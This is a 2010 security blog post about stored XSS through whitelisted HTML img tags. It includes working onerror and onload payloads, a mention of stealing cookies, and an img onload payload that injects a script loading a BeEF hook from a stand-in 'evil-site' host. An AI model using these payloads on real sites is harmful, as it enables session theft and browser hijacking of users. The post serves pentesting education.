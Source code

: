 ```yaml
---
id: 590
title: 'Exotic XSS: The HTML Image Tag'
date: '2010-04-06T13:45:54-05:00'
author: 'Matt Gardenghi'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=590'
permalink: /2010/exotic-xss-the-html-image-tag
categories:
    - Hacking
tags:
    - Exploits
    - Hacking
    - 'Matt Gardenghi'
    - XSS
---
```


There are the usual XSS tests. And then there are the fun ones. This is a story about a more exotic approach to testing XSS....

I was testing a company that had passed all XSS tests from their pentester. I found that they allowed users to write HTML tags. Of course they didn't permit <script> tags or <iframe> tags. (Well, they did allow those, but that was an oops - no server side filtering.) This company had whitelisted a variety of "safe" tags for use by clients.

That's boring, right? Heh, thanks to Ron, I had a way to abuse their whitelist. (I've since found this in Web Application Hackers Handbook, but I seem to have overlooked it at the time I read it.) Three HTML 4 tags in particular allow javascript to be run from one of the elements and these are: <img>, <object>, and <style>.  
  
You are really unlikely to see <object> and <style> tags permitted, but <img> tags are a bit more common. Note: since my work on this site, I've seen RSnake's [page](http://ha.ckers.org/xss.html "page") and other pages that talk about using <img src="alert('XSS')">. That was nice in the past, but none of my current version browsers will execute that. (Makes me wonder if the whole tracking image thing from emails of yesteryear still works, but that's a rabbit trail. If you know, post a comment.) Still, just because I can't source the javascript, doesn't mean I can't execute javascript.... We'll use different HTML 4 elements.

Now, in my scenario, I decided to input <img src="blah.jpg" onerror="alert('XSS')"/> and reloaded the page. BINGO! I got a popup box. This also works and has the advantage of a working image: <img src="realimage.png" onload="alert('XSS')"/>.

That's cool. It's really easy to check that off on your list and say "vulnerable to XSS." But, can you do anything besides popping boxes? Doing something would be useful. I had a question about all this, "will these elements support more than an alert box or is this a useless novelty?" More tests were in order.

So, then we could replace alert() with document.write() and write the cookie to our server. This swipes cookies and that's better than a popup. But why stop there?

Why not create a <script> on the page itself? What's that you say? <script> isn't on the whitelist? So, your point? If your browser creates the <script> locally, it can't be filtered, now can it?

Thanks to Mak (@mak\_kolybabi) for giving me some of the tips I needed to get this going in the correct direction.

How about we try this:

<img onload="var s = document.createElement('script'); s.src='http://evil-site/beef/hook/beefmagic.js.php';document.getElementsByTagName('head')\[0\].appendChild(s);" src="real\_image.jpg" />

We have a image that triggers the onload element. Now we tell the browser to create a script element. You may not be able to write <script>, but you are able to write the word "script." The createElement function tells the browser to create the <script></script>. It's local to the client and the server has no idea. :-D

Then we give the source element (what else would you use but [BeEF](http://www.bindshell.net "BeEF")?) and then we place our new element into the page. Viola! You've just turned a simple <img> tag into stored XSS....

I have noticed that using onload="local\_function()," IE8 and FF3.6 have "issues." Not sure what it is quite yet.

I spent a few moments looking around to see if I could locate websites that allow you to use HTML tags. From a cursory perspective, Slashdot is safe, so is Digg, and most forums are now using BB Code. So, how useful is this? I'd wager it's probably a last resort. If you chained attacks you could potentially use it. Suppose you bypassed the front line of defense ([like so](http://www.skullsecurity.org/blog/?p=560 "like so")) in a manner that allowed you to write tags, but ran into some sort of whitelist filtering on the server preventing <script> tags. Now you have a way to create script tags while evading the filter.

We're not done yet....

Now, you might think that all of this is trivial and not very important. I mean seriously, who allows users to write tags at all? Let's look forward for a moment. HTML5 is coming. According to this[ site](http://simon.html5.org/html5-elements "site") (and I have to think that they would know), we find this beautiful bit of information: all event handlers must be supported by all elements, or something like that. And there are a bunch of new event handlers.

In other words, not only do we have access to onload/onerror in every element, we get lots more.... Stored XSS will be everywhere for years. All these wannabe web guys who implement the cool new whizbang HTML5 as soon as it ships, will be running huge risks unless they carefully filter out event handlers. (At least they need to prevent users from implementing event handlers.) We've seen how well this has worked in the past, so my hopes for reasonably secure implementation are exactly nonexistent.

And if you have a site that you want to allow users to write tags, try switching to BB Code. It's safer. Well, in 10 minutes of testing I didn't see how to bypass it as it doesn't support anything. :-D

Currently, I am developing a page that will test a browser's support of HTML 5 action events. If you have suggestions or tips, send them my way. I'm currently muddling through my coding.

Oh and just think about what would happen if someone accidentally on purpose managed to rewrite the <img> element on www.digg.com or www.google.com. Would anyone ever notice? How long would it take to find it? Seriously, looking for a compromise, who'd look at the official logo for the infection? Enjoy your nightmares people.

Cheers.